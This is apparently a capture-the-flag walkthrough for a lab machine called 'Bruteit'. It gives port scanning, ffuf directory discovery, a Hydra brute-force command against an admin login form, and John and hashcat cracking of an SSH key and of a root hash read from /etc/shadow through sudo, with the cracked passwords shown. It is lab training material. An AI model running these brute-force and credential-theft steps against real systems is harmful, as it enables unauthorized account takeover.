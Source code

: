 # Bruteit
```
EXPORT_IP = 10.10.192.48
```

#### SCAN
```
22 ssh
80 http
```

#### Web Enum
```
TOOL :  ffuf

[DIR Brute Forcing] : /admin
```

#### Login Brute Forcing
```
WORD_LIST = /usr/share/wordlists/rockyou.txt

[Hydra Brute Forcing]
hydra -l admin -P {WORD_LIST} {EXPORT_IP} http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid"

> admin : xavier
```

#### SSH Brute Forcing
```
$ /usr/share/john/ssh2john.py sshEnum/ssh.pub > hash

$ john hash --wordlist=rockyou.txt hash

> rockinroll
```

## PRIVILEGE ESCALATE
```
$ sudo -l

$ sudo /bin/cat /etc/shadow
> root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::

$ hashcat -m 1800 hash {PASSWORD_LIST}
> football

$ su (root:football)
```